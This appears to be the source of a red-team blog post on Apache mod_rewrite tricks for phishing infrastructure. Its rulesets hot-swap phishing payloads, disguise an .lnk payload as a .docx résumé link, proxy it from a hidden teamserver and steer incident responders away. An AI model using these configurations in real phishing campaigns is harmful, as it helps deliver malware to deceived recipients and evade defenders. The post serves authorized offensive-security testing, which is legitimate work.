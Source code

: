 ```yaml
---
layout: post
title: Apache mod_rewrite Grab Bag
summary: Using Apache mod_rewrite to hot-swap payloads, obfuscate payload file extensions, block non-standard HTTP methods, and use an alternate method to redirect requests for invalid URIs.
tags: 
- mod_rewrite
- phishing
featuredimage: /assets/apache/payload-file-extension-obfuscation.gif
---
```


Apache mod_rewrite provides conditional redirection and obfuscation to a red teamer's infrastructure. I've previously written about mod_rewrite in [a few posts]({{site.baseurl}}/topics/mod_rewrite). In this post, I will cover a few quick tricks you can use in conjunction with techniques from my earlier posts while phishing or red teaming.

Be sure you read the [first-time setup instructions]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection#first-time-apache-setup) for mod_rewrite to configure your server to work properly. 

# Payload Hot-Swapping
We've all been in a situation where, just after sending out a large phishing batch, we realize that some aspect of the payload doesn't work in the target environment. Previously, the batch would be burned. With mod_rewrite, we can create a ruleset to redirect requests for the original payload and redirect it to a new payload.

Let's say our original payload, `BonusesAndSalaries2017.hta`, didn't work and we want to replace it with `BonusesAndSalaries2017.lnk`. We could use the following htaccess ruleset:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/BonusesAndSalaries2017.hta$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">/BonusesAndSalaries2017.lnk </span><span style="color: tomato"> [L,R=302]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com/</span><span style="color: mediumvioletred">?</span> <span style="color: tomato">[L,R=302]</span></div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">matches our original payload, BonusesAndSalaries2017.hta, </span><br>
<span style="color: gold">Change the request </span> <span style="color: orange">to serve /BonusesAndSalaries2017.lnk. </span><span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span><br>
If the above conditions are not met, <span style="color: gold">change the entire request</span> <span style="color: orange"> to http://REDIRECTION-URL.com/ </span><span style="color: mediumvioletred">and drop any query strings from the original request. </span> <span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span></div>

Delete the original payload and put the above ruleset in an htaccess file in the web root of the server hosting the original payload. While this technique works as a reaction a phishing issue, it also works proactively. By using a generic link (such as `/BonusesAndSalaries2017`) in the email, you can quickly modify the third line of the htaccess file to serve up your next payload.

# Payload File Extension Obfuscation
Similar to payload hot-swapping, we can use mod_rewrite to help our phishing email look more believable to targets and email security appliances by hiding our payload's true file extension. Imagine we are going to use an lnk payload, but want end-users to think they're clicking on a link to a Word document. If our email used the `<a>` tags to obfuscate the link, a mouse-over or copy and paste thwarts the plan. Not to mention the fact that display text that doesn't match the hyperlink destination raises your score in many spam filters.

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/JackBrownResume.docx?$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">/JackBrownResume.lnk</span><span style="color: tomato"> [L,R=302]</span><br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/JackBrownResume.lnk?$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://TEAMSERVER-IP/<span style="color: dodgerblue">JackBrownResume.lnk</span></span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com/</span><span style="color: mediumvioletred">?</span> <span style="color: tomato">[L,R=302]</span></div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">is /JackBrownResume.docx (the link we put in the phishing email body), </span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to /JackBrownResume.lnk (the actual payload). </span><span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span><br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">is /JackBrownResume.lnk (the payload we want to serve), </span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to serve </span><span style="color: dodgerblue">/JackBrownResume.lnk</span><span style="color: orange"> from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
If the above conditions are not met, <span style="color: gold">change the entire request</span> <span style="color: orange"> to http://REDIRECTION-URL.com/ </span><span style="color: mediumvioletred">and drop any query strings from the original request. </span> <span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span>
</div>

The mod_rewrite ruleset will redirect our docx link to the lnk and trigger a download in the end-user's browser. 

Here is a demo of this ruleset in action:

![Payload File Extension Obfuscation Demo](/assets/apache/payload-file-extension-obfuscation.gif)

# 404 Redirection

In my post [Invalid URI Redirection with Apache mod_rewrite]({{site.baseurl}}/2016-03-29-invalid-uri-redirection-with-apache-mod_rewrite/), I covered a method of redirecting invalid URI requests to a chosen page. That method involves manually specifying allowed URIs, regardless of files present in the web directory on your server. 

We can accomplish a similar function by redirecting all requests for nonexistent resources (404s) to a different page:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
ErrorDocument 404 <span style="color: dodgerblue">http://REDIRECTION-URL.com/</span><br></div>
 
If you are only using your Apache server for redirection this is a quick method of filtering requests for invalid URIs. But, keep in mind that Apache will serve any valid files requested

# Block Unexpected HTTP Methods
Just as pentesters will use non-standard HTTP methods to gather intelligence from a target server, incident responders can use these HTTP methods against our infrastructure. To reduce that risk, we can allow GET and POST requests and redirect all others with the following ruleset:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_METHOD}</span> <span style="color: mediumseagreen">!^(GET|POST)</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com</span><span style="color: tomato"> [L,R=302]</span><br></div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's HTTP Method </span> <span style="color: mediumseagreen">is not GET or POST, </span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to http://REDIRECTION-URL.com. </span><span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span><br></div>

# Summary

Apache mod_rewrite provides a multitude of functionality that is useful for offensive security assessments. With the mod_rewrite techniques covered in this post, we can conditionally redirect web requests to obfuscate our backend infrastructure and point incident responders in the wrong direction. The techniques covered in this post can be combined with other [previously covered]({{site.baseurl}}/topics/mod_rewrite) techniques to even greater effect.

# Resources

* [mod-rewrite-cheatsheet.com](http://mod-rewrite-cheatsheet.com)
* [Official Apache 2.4 mod_rewrite Documentation](http://httpd.apache.org/docs/current/rewrite/)
	* [Apache mod_rewrite Introduction](https://httpd.apache.org/docs/2.4/en/rewrite/intro.html)
* [An In-Depth Guide to mod_rewrite for Apache](http://code.tutsplus.com/tutorials/an-in-depth-guide-to-mod_rewrite-for-apache--net-6708)